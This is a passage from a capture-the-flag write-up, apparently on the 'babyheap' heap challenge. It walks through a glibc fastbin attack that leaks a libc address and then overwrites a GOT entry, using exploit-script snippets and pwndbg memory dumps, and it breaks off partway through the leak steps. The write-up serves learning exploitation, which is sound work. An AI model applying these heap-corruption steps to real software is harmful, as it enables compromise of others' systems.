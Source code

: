### Determining The Aim Of The Game
The glorious resource to get gud at heap exploitation: https://github.com/shellphish/how2heap
How2Heap describes a bunch of techniques for heap exploitation and I couldn't avoid seeing that "2017-babyheap" was next to the technique "abusing the fastbin freelist". Therefore, my next step was looking at fastbin exploitation. The first link I found was: https://0x00sec.org/t/heap-exploitation-fastbin-attack/3627 and it gave a nice example. The exploit worked as follows:
1. Get a libc leak with a use-afer-free vuln.
2. Overwrite the forward pointer of a fast chunk with an address near the GOT via another use-after-free vuln.
3. Overwrite a GOT entry.
4. Profit.

This became the basis for the start of my exploit and was where I got the super good glibc description from (linked in prereq section).

### Getting A Leak
Unfortunately we didn't have a simple use-after-free, i.e. after freeing a small bin sized chunk, we can't trivially dump that same chunk. However, we can use the technique of step 2 (above) to achieve the same goal. From a high level, this is how it is done:
1. Allocate some chunks.
2. Free 2 fast bin chunks so that one points to the other.
3. Overwrite that pointer so it points to a small bin chunk you have allocated.
4. Allocate 2 more chunks that are of fast bin size (this means the second allocation is given a pointer to the same chunk as the small bin).
5. Free the small bin (sets the forward and back pointer to the main_arena).
6. Dump the fast bin chunk that points to the same memory as the small bin.
7. Observe a libc address.

__Steps Broken Down__
1. Allocate 5 chunks:
    - Chunk that we can overflow from.
    - Fast bin chunk to have forward pointer overwritten.
    - Fast bin chunk to prompt a forward pointer existing.
    - Small bin chunk to get the main_arena address.
    - Any chunk to prevent the small bin chunk being merged into the wilderness.
    ```
    allocate(p, 0x10) # 0
    allocate(p, 0x10) # 1
    allocate(p, 0x10) # 2
    allocate(p, 0x80) # 3 - CHUNK WE WANT TO LEAK LIBC FROM
    allocate(p, 0x10) # 4
    ```
2. Free 2 fast bin chunks so that one points to the other:
    ```
    free(p, 2)
    free(p, 1)
    ```
    ```
    pwndbg> x/12gx 0x55f25bf4a000
    0x55f25bf4a000:	0x0000000000000000	0x0000000000000021
    0x55f25bf4a010:	0x0000000000000000	0x0000000000000000
    0x55f25bf4a020:	0x0000000000000000	0x0000000000000021
    0x55f25bf4a030:	0x000055f25bf4a040	0x0000000000000000
    0x55f25bf4a040:	0x0000000000000000	0x0000000000000021
    0x55f25bf4a050:	0x0000000000000000	0x0000000000000000
    ```
3. Overwrite that pointer so it points to a small bin chunk you have allocated:
    ```
    fill(p, 0, ("A"*16)+p64(0x00)+p64(0x21)+"\x60")
    ```
    ```
    pwndbg> x/16gx 0x5575d9d28000
    0x5575d9d28000:	0x0000000000000000	0x0000000000000021